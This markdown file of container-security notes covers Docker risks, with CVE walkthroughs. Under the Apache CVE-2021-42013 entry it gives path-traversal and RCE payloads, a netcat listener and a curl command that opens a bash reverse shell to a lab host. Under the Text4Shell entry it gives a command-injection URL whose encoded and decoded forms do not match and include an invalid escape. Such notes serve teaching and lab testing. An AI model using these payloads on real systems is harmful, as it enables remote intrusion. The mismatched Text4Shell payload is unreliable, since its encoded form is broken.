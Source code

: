 # Container-Security (Docker & Kubernetes)
## Docker: OWASP Top 10
<details> 
<summary> 1: Host OS Vulnerabilities </summary>
- If Host OS have vulnerabilities, attacker can use it to gain access to containers and apps running inside them.
- Resolution: Regular patching of host OS, Usage of IDS, Firewall, Implement strict access controls

#### CVE-2021-42013 (Path Traversal + RCE + Reverse Shell Attack)
- An attacker could use a path traversal attack to map URLs to files outside the directories. If files outside of these directories are not protected by the usual default configuration "require all denied", these requests can succeed. If CGI scripts are also enabled for these pathes, this could allow for remote code execution.
- This issue affects Apache 2.4.49 and Apache 2.4.50 and not earlier versions.
- Path Traversal payload - ``` http://172.17.0.2:80/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd ```
- Actual payload After double URL decode - ``` http://172.17.0.2:80/cgi-bin/../../../../../../../etc/passwd ```
- Netcat listening on ``` $ nc -lvnp 4444  ```
- RCE Payload: ``` $ curl -s --path-as-is -d "echo Content-Type: text/plain; echo; bash -i >& /dev/tcp/172.17.0.1/4444 0>&1" "http://172.17.0.3:80/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/bin/bash" ```
- References: https://github.com/twseptian/cve-2021-42013-docker-lab
</details>

<details> 
<summary> 2: Insecure Container Images </summary>
- By compromising the insecure container images, attacker can gain access to applications. 
- Resolution: Implementation of Image Scannings (To identify vulnerabilities) and Signature Validations (to ensure Images are Trusted)
- Best practises: Use minimal base images that conbtain only necessary libraries

#### CVE-2022-42889 (Command Injection)
- The vulnerability exists in the StringSubstitutor interpolator object. An interpolator is created by the StringSubstitutor.createInterpolator() method and will allow for string lookups as defined in the StringLookupFactory. This can be used by passing a string “${prefix:name}” where the prefix is the aforementioned lookup. Using the “script”, “dns”, or “url” lookups would allow a crafted string to execute arbitrary scripts when passed to the interpolator object.
- This issue affects Apache Commons Text versions 1.5 through 1.9.
- Cmd Injection URL Payload - ```https://your-target.com/exploit?search=%24%7Burl%3AUTF-8%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27touch+%2Ttmp%2Fhelloworld%27%29%7d ```
- Actual payload after decode - ```https://your-target.com/exploit?search=${script:javascript:java.lang.Runtime.getRuntime().exec('touch helloworld')} ```
- After successful execution a file helloworld will be created in app server.
- References: https://github.com/devenes/text4shell-cve-2022-42889
</details>
